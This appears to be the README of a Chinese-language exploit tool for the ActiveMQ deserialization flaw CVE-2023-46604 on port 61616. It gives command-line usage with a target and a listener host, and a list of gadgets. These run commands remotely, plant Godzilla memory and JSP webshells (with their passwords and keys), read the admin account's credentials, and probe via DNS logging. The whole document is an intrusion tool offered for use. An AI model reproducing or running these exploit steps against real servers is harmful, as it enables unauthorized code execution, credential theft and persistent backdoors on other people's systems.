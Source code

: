 
ActiveMQ CVE-2023-46604 61616端口利用工具

安全版本>= 5.18.3/5.17.6/5.16.7

java -jar ActiveMQExp.jar rhost=rhost lhost=lhost gadget=gadget cmd=cmd

例如

java -jar ActiveMQExp.jar rhost=127.0.0.1 lhost=127.0.0.1 gadget=cb19 cmd=whoami

默认 rport=61616 ldapport=1389 httpport=9998

目前支持的gadget如下

gadget=wincmd cmd=whoami //无回显

gadget=linuxcmd cmd=whoami //无回显

gadget=spelcmd cmd=whoami //无回显

gadget=spelecho cmd=whoami //有回显 from Hutt0n0

gadget=spelclass cmd=memcmd //内存马 from Hutt0n0 http://rhost:8161/admin/memshell?cmd=whoami

gadget=spelclass cmd=memgodzilla //内存马 http://rhost:8161/admin/memgodzilla pass:Tas9er key:B7VO2sAamj

gadget=spelclass cmd=readfile //读8186账户密码并且请求一次8186/admin/

gadget=spelclass cmd=whoami //有回显

gadget=spelclass cmd=cmdjsp // http://rhost:8161/api/cmd.jsp

gadget=spelclass cmd=godzillajsp // http://rhost:8161/api/godzillajsp pass:Tas9er key:B7VO2sAamj

gadget=urldns cmd=xxx.dnslog.cn

gadget=cb18 cmd=whoami //有回显

gadget=cb18 cmd=cmdjsp

gadget=cb18 cmd=godzillajsp

gadget=cb18 cmd=readfile

gadget=cb18 cmd=memgodzilla

gadget=cb19 cmd=whoami //有回显

gadget=cb19 cmd=cmdjsp

gadget=cb19 cmd=godzillajsp

gadget=cb19 cmd=readfile

gadget=cb19 cmd=memgodzilla


